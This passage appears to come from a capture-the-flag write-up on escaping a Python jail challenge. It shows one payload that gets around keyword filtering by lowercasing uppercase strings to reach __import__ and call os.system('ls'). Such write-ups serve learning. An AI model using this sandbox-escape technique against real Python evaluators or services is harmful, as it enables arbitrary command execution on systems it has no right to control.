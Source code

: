 ![Decoded message](/assets/img/umass/ekrpat/decoded.png)

After toying with the python3 interpreter and `googling` a bit. I found a workaround for this simple jail escaping challenge.

```python
__builtins__.__dict__['IMPORT'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')
```

![list directory](/assets/img/umass/ekrpat/ls.png)
